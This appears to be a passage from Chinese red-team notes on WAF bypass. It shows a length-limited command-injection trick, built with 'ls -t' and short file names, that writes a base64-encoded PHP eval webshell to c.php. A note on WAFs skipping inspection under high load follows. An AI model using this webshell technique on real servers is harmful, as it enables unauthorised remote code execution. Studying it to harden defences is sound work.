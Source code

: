 ```
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

## 来源

![](../../../../assets/img/安全/笔记/RedTeam/安防设备总结/7.jpg)

- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

---

## 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题,例如如果是基于数据包的话会考虑检测数据包的包长,如果是基于数据流的话就会考虑检测一条数据流的多少个字节.一般这类算检测的性能,同时为了保证 WAF 的正常运行,往往还会做一个 bypass 设计,在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候,会做检测 bypass,以保证设备的正常运行.
